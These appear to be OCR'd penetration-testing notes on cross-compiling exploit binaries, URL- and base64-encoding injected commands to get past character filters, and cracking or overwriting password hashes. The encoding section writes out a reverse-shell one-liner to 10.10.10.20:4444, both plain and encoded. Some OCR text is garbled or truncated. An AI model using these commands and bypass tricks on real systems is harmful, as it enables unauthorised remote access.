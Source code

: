 # Compile C/C++

2021 年 8 月 6 日 21:

1: Compile C/C++ binary for **Windows
i686-w64-mingw32-gcc exp.c -o exp.exe [-lws2_32]
i686-w64-mingw32-g++ exp.cpp -o exp.exe [-lws2_32]
x86_64-w64-mingw32-gcc -o main64.exemain.c
x86_64-w64-mingw32-g++ -o main 32 .exe main.c
Compile** on **Visual Studio**

2: Compile C/C++ binary for **Linux
gcc exp.c -o exp -m
gcc exp.c -o exp**



# Encoding


**Encode command in HTTP Request**
1: Online encoding/decoding: https://www.urlencoder.org/
2: Sometimes, only **some characters** will be encoded

**Encode command in Python function**
1: Replace '+' with ' '. For example, **sh -i >& /dev/tcp/10.10.10.20/4444 0>&
==> sh+-i >& /dev/tcp/10.10.10.20/4444+0>&**

**Encode command in Python function in HTTP Request**
1: Use **URL-encoding** first
2: Replace **'%20'** with **'+'.** For example, **sh -i >& /dev/tcp/10.10.10.20/
0>&1 ==>
sh+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.20%2F4444+0%3E%**

**Base64 encoding**
1: Can be used to **bypass character filter**
###Ref: BadCorp
2: Online encoding/decoding: https://www.base64decode.org/
3: For Linux **echo xxxxxx | base64** , **echo xxxxx | base64 -d**

**Other encoding
Base32** encoding: **Nappa** PE stage in PG



# Cryptography

**Hash**
1: Identify hash type
2: Crack it
3: If hash is stored in database and it is uncrackable, overwrite it

**Encryption**
AES
a: Online website
b: Python script
Others
TBD
